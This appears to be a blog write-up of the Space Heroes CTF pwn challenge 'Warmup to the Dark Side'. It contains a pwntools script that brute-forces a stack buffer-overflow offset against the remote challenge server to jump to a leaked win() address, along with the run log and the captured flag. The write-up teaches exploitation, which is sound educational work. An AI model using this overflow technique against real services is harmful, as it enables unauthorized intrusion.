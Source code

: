 ```yaml
---
title: "shctf/pwn: Warmup to the Dark Side"
date: 2022-04-05 15:57:40
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- buffer-overflow
description: "Learn how to stack smash an ASLR-enabled program... without the binary! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Warmup to the Dark Side\"."
permalink: ctfs/shctf/pwn/warmup-to-the-dark-side/
thumbnail: /asset/banner/banner-darkside.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<div class="box">
    Once you start down the dark path, forever will it dominate your destiny.<br>
    (And yes, the binary isn't included)<br>
    <code>nc 0.cloud.chals.io 30096</code><br>
    <b>Author</b>: v10l3nt
</div>

Let's run that `netcat` link to see what's going on:

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">nc 0.cloud.chals.io 30096</span></span><br><span class="line">The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c</span><br><span class="line">Jedi Mind tricks dont work on me &gt;&gt;&gt; </span><br></pre>
            </td>
        </tr>
    </table>
</figure>

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

<figure class="highlight py">
    <figcaption><span>warmup-to-the-dark-side.py</span><a target="_blank" rel="noopener"
      href="https://gist.github.com/jktrn/dd861b378b859a0588b48c71ad9fbf45"><span style="color:#82C4E4">github gist link</span></a></figcaption>
    <table>
        <tr>
            <td class="gutter">
                <pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre>
            </td>
            <td class="code">
                <pre><span class="line"><span class="keyword">from</span> pwn <span class="keyword">import</span> *</span><br><span class="line"></span><br><span class="line"><span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">32</span>,<span class="number">128</span>):</span><br><span class="line">        p = remote(<span class="string">&quot;0.cloud.chals.io&quot;</span>, <span class="number">30096</span>)</span><br><span class="line">        address = p.readlineS()[<span class="number">112</span>:<span class="number">126</span>]</span><br><span class="line">        log.info(<span class="string">&quot;Trying offset &quot;</span> + <span class="built_in">str</span>(i) + <span class="string">&quot; for address &quot;</span> + address)</span><br><span class="line">        p.sendline(<span class="string">b&#x27;A&#x27;</span>*i + p64(<span class="built_in">int</span>(address, base=<span class="number">16</span>)))</span><br><span class="line">        output = p.recvallS()</span><br><span class="line">        <span class="keyword">if</span> <span class="string">&quot;shctf&quot;</span> <span class="keyword">in</span> output:</span><br><span class="line">                log.success(output)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">        p.close()</span><br></pre>
            </td>
        </tr>
    </table>
</figure>

Let's run this script on the server to see if we can get the flag:

<figure class="highlight text">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line">...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 37 for address 0x55f788f1120c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 38 for address 0x5631d523620c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 39 for address 0x55980d2d520c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 40 for address 0x55f0008b520c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (95B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Jedi Mind tricks dont work on me &gt;&gt;&gt; </span><br><span class="line">    shctf&#123;I_will_remov3_th3s3_restraints_and_leave_the_c3ll&#125;</span><br></pre>
            </td>
        </tr>
    </table>
</figure>


<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>

